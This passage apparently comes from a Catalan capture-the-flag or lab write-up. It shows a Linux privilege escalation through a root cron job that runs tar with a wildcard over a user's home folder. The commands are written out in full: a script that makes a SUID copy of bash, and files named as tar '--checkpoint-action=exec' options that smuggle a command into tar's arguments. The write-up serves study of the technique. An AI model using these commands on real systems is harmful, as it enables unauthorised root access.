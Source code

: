 ```bash
luigi@22ae1bc1f511:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/local/bin/backup.sh

luigi@22ae1bc1f511:/$ cat /usr/local/bin/backup.sh
#!/bin/bash
mkdir -p /backups
cd /home/luigi/
tar -czf /backups/home_luigi_backup.tar.gz *

luigi@22ae1bc1f511:/$ ls -la /usr/local/bin/backup.sh
-rwxr-xr-x 1 root root 91 Dec 27 23:11 /usr/local/bin/backup.sh
```

No tenim permisos d'escriptura sobre el fitxer de la tasca programada, però podem aprofitar aquesta tasca per fer un **TAR Wildcard**, ja que sí que tenim permisos a la carpeta `/home/luigi`.

```bash
luigi@22ae1bc1f511:/home/luigi$ echo "cp /usr/bin/bash /tmp/b && chmod +s /tmp/b" > cpbash.sh
luigi@22ae1bc1f511:/home/luigi$ chmod +x cpbash.sh 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint=1' 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint-action=exec=sh cpbash.sh'
luigi@22ae1bc1f511:/home/luigi$ ls -la
total 32
-rw-r--r-- 1 luigi root     0 Feb  2 01:15 '--checkpoint-action=exec=sh cpbash.sh'
-rw-r--r-- 1 luigi root     0 Feb  2 01:14 '--checkpoint=1'
drwxr-xr-x 1 luigi luigi 4096 Feb  2 01:15  .
drwxr-xr-x 1 root  root  4096 Dec 27 23:11  ..
-rw-r--r-- 1 luigi luigi  220 Feb 25  2020  .bash_logout
-rw-r--r-- 1 luigi luigi 3771 Feb 25  2020  .bashrc
-rw-r--r-- 1 luigi luigi  807 Feb 25  2020  .profile
-rwxr-xr-x 1 luigi root    43 Feb  2 01:14  cpbash.sh
drwxr-xr-x 3 luigi luigi 4096 Dec 27 23:11  subversion
```
